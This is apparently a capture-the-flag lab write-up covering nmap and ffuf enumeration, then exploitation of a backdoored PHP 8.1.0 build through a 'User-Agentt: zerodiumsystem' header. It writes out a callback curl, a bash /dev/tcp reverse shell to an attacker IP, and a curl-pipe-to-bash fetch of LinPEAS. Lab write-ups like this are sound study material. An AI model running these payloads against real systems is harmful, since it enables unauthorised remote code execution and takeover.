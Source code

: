 *Review this and add more info and put in resume*

We start with nmap:

```
nmap -sV -sC {ip address}
```
There are two ports open 80 and 22

We enumerate the directories with ffuf:

```
ffuf -u http://10.10.10.242/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

We find the version of php by using `curl`

```
curl -I http://10.10.10.242/index.php
```

We learn that the web-server is `php 8.1.0`

If we pass a header value of `User-Agentt: zerodiumsystem("cmd")`, it should execute on the web-server.

We set up a web-server to listen:

```
sudo python3 -m http.server 80
```

To confirm our header code works we send, and wait for a 200 response on the web-server:

```
curl http://10.10.10.242/index.php -H 'User-Agentt: zerodiumsystem("curl 10.10.14.177");'
```

Set up netcat listener:

```
nc -nlvp 1234
```

Run the reverse shell:

```
curl http://10.10.10.242/index.php -H "User-Agentt: zerodiumsystem(\"bash -c 'bash -i &>/dev/tcp/10.10.14.177/1234 0>&1 '\");"
```

This gives us a shell for user James, we need to escalate privileges to root. To do this we download LinPEAS to our local via wget, then curl our local web-server to get the LinPEAS.

```
Local$ wget wget https://github.com/peass-ng/PEASS-ng/releases/download/20240714-cd435bb2/linpeas.sh

Local$ sudo python3 -m http.server 80

Attack$ curl 10.10.14.177/linpeas.sh|bash
```

The attack command will download the linpeas script on the attacking box and let us know what privilege escalation vulnerabilities are on the box.

